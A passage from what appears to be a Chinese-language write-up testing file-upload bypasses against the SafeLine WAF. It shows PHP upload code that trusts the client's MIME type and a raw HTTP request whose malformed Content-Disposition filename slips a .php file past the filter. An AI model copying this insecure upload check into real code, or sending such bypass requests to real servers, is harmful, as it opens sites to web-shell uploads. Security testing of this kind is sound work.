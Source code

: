审计代码中发现在判断条件中，先进行了 move\_uploaded\_file 函数再对于文件进行了检测，因此存在条件竞争绕过的可能  
但在雷池 WAF 中我们文件还没落地就已经被拦住了，因此不可行

##### content-type 绕过

该方法在目前白名单的时代中也几乎不见了，我们可以看看它的写法

```bash
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists($UPLOAD_ADDR)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            if (move_uploaded_file($_FILES['upload_file']['tmp_name'], $UPLOAD_ADDR . '/' . $_FILES['upload_file']['name'])) {
                $img_path = $UPLOAD_ADDR . $_FILES['upload_file']['name'];
                $is_upload = true;

            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = $UPLOAD_ADDR.'文件夹不存在,请手工创建！';
    }
}
```

仅仅对于上传文件的 type 进行检测，无法绕过雷池 WAF

##### 利用文件包含漏洞

根据绕过方式的名字可以得知至少需要攻击者能够找到文件包含漏洞的位置且能够被攻击者任意构造才能够进行利用，两个条件如下  
(1 ) include 等函数通过动态执行变量的方式引入需要包含的文件  
(2）用户能控制该动态变量

#### 绕过成功

##### 修改 Content-Disposition 绕过

```bash
POST /upFile.php HTTP/1.1
Host: 39.106.145.5:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2477136673360361791890184650
Content-Length: 233
Origin: http://39.106.145.5:7777
Connection: close
Referer: http://39.106.145.5:7777/
Cookie: sl-session=OAWDFEAwv2UukbVHDXo51w==
Upgrade-Insecure-Requests: 1

-----------------------------2477136673360361791890184650
Content-Disposition: form-data;name="file"; filename=="one.php"
Content-Type: application/octet-stream

here
-----------------------------2477136673360361791890184650--
```
